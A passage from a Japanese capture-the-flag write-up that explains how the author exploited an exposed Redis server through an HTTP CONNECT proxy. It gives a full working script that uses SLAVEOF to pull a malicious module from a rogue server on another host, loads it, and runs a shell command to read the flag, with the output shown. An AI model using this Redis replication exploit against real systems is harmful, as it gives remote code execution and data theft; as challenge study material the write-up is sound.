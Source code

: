 ```python
print(sock.recv(10240).decode())
sock.send(b'quit\r\n')
print(sock.recv(10240).decode())
sock.close()
```

これを実行すると、`SLAVEOF` で指定した IP アドレスに問題サーバから接続があり、`PING` と送られてきました。`SLAVEOF` が有効なようです。

`SLAVEOF` による攻撃のためのツールに [Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server) があります。これをダウンロードして `python redis-rogue-server.py --server-only --lport 8001` で 8001 番ポートで攻撃用のサーバを立ち上げておきます。

攻撃用のスクリプトを書きます。

```python
import socket
import time

def send(sock, cmd):
  sock.send(cmd + b'\r\n')
  print(sock.recv(10240))

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('localhost', 8080))
sock.send("""CONNECT 0.0.0.0:6379 HTTP/1.1
Host: 0.0.0.0:6379

""".replace('\n', '\r\n').encode())
print(sock.recv(1024))

send(sock, b'slaveof no one')
send(sock, b'config set dir /tmp/')
send(sock, b'config set dbfilename expppp.so')

send(sock, b'slaveof (省略) 8001')

time.sleep(5)

send(sock, b'module load /tmp/expppp.so')
send(sock, b'system.exec "cat /flag.txt"')

send(sock, b'slaveof no one')
send(sock, b'quit')

sock.close()
```

実行しましょう。

```
$ python3 a.py 
b'HTTP/1.1 200 OK\r\nDate: Mon, 14 Sep 2020 18:02:20 GMT\r\nTransfer-Encoding: chunked\r\n\r\n'
b'+OK\r\n'
b'+OK\r\n'
b'+OK\r\n'
b'+OK\r\n'
b'+OK\r\n'
b'$49\r\n0\n96\nflag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}\n\r\n'
b'+OK\r\n'
b'+OK\r\n'
```

フラグが得られました。

```
flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}
```